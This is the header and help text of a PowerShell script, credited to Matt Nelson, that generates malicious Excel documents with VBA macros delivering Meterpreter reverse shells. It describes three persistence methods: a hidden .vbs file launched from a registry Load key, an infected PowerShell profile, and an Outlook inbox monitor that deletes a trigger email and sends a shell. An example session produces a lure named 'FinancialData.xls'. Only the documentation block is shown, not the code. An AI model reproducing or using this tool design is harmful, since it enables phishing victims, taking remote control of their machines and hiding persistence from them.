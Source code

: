 #Coded by Matt Nelson (@enigma0x3)
<#
.SYNOPSIS
Standalone Powershell script that will generate a malicious Microsoft Office document with a specified payload and persistence method

.DESCRIPTION
This script will generate malicious Microsoft Excel Documents that contain VBA macros. This script will prompt you for your attacking IP 
(the one you will receive your shell at), the port you want your shell at, and the name of the document. From there, the script will then
display a menu of different attacks, all with different persistence methods. Once an attack is chosen, it will then prompt you for your payload type
(Only HTTP and HTTPS are supported).

When naming the document, don't include a file extension.

These attacks use Invoke-Shellcode, which was created by Matt Graeber. Follow him on Twitter --> @mattifestation


.Attack Types
Meterpreter Shell with Logon Persistence: This attack delivers a meterpreter shell and then persists in the registry 
by creating a hidden .vbs file in C:\Users\Public and then creates a registry key in HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load
that executes the .vbs file on login.

Meterpreter Shell with Powershell Profile Persistence: This attack requires the target user to have admin right but is quite creative. It will
deliver you a shell and then drop a malicious .vbs file in C:\Users\Default\AppData\Roaming\Microsoft\Windows\Cookies\cookie.vbs. Once dropped, it creates
an infected Powershell Profile file in C:\Windows\SysNative\WindowsPowerShell\v1.0\ and then creates a registry key in 
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load that executes Powershell.exe on startup. Since the Powershell profile loads automatically when 
Powershell.exe is invoked, your code is executed automatically.

Meterpreter Shell with Microsoft Outlook Email Persistence: This attack will give you a shell and then download a malicious Powershell script in this location:
C:\Users\Public\. Once downloaded, it will insert your defined IP address, Port, Email address and Trigger word.
It will then create a malicious .vbs file and drop it in C:\Users\Default\AppData\Roaming\Microsoft\Windows\Cookies\. Once dropped, it creates
a registry key that executes it on login. When the Powershell script is executed, it monitors the user's Outlook Inbox for an email containing 
the email address you specified as well as the subject. When it sees the email, it will delete it and send you a shell.


.EXAMPLE
PS> ./Generate-Macro.ps1
Enter IP Address: 10.0.0.10
Enter Port Number: 1111
Enter the name of the document (Do not include a file extension): FinancialData

--------Select Attack---------
1. Meterpreter Shell with Logon Persistence
2. Meterpreter Shell with Powershell Profile Persistence (Requires user to be local admin)
3. Meterpreter Shell with Microsoft Outlook Email Persistence
------------------------------
Select Attack Number & Press Enter: 1

--------Select Payload---------
1. Meterpreter Reverse HTTPS
2. Meterpreter Reverse HTTP
------------------------------
Select Payload Number & Press Enter: 1
Saved to file C:\Users\Malware\Desktop\FinancialData.xls
PS>




#>
